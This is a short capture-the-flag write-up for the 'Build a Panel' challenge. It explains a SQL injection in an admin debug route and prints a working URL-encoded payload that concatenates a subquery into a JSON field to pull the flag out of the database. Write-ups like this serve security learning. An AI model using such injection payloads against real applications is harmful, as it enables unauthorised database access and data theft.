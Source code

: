 # Build a Panel
There is a debug route that has SQL injection. We can make it add the flag into the widget table under our panel ID, but since the value field needs to be JSON some padding is needed.

`/admin/debug/add_widget?panelid=your id&widgetname=flag%27,%20%27{%22type%22:%22%27%20||%20(SELECT%20*%20FROM%20flag%20LIMIT%201)%20||%20%27%22}%27);--&widgetdata=b`


